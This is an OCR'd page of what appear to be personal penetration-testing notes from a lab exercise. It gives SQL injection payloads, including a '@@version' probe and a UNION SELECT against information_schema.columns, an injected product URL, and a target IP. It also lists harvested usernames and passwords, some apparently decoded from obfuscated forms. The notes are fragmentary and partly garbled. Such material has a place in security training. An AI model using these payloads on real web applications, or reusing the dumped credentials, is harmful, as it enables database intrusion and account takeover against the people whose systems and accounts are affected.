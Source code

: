 #4

#5 
' union select @@version #

#6
switch sqlinjection to payments table 

## golden statement
  ' UNION SELECT table_schema,table_name,column_name FROM information_schema.columns #
      >use placeholders when we n eed more columns like numbers, also this is a baseline and will help set up and carry the rest of the injections 

















# SETUP
### IP
```
10.50.27.14
```





















# OPNOTES
#### SQL
```
pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
1,3,2
BestWebApp PASSWORDS:
user2  ::  RntyrfVfNER78
user3  ::  Obo4GURRnccyrf
Lee-Roth  ::  anotherpassword4THEages
```
1 	apasswordyPa$$word 	$Aaron
2 	EaglesIsARE78 		$user2
3 	Bob4THEEapples 		$user3
4 	anotherpassword4THEages 	$Lroth
